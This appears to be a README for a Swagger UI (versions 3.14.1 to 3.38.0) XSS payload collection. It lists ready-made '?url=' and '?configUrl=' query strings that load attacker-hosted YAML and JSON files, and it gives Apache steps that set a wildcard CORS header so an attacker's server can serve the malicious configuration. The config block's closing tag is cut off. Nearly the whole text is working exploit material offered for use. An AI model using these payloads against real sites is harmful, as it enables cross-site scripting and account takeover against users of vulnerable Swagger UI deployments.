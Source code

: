 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

test.json -> test.yaml
`?configUrl=https://xxx.xxx.xxx/test.json`

### `apache CORS bug`
`a2enmod headers`

`vim /etc/apache2/apache2.conf`

```
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Access-Control-Allow-Origin "*"
</Directory
```

`apachectl -t`

`sudo systemctl restart apache2` or `sudo service apache2 restart`

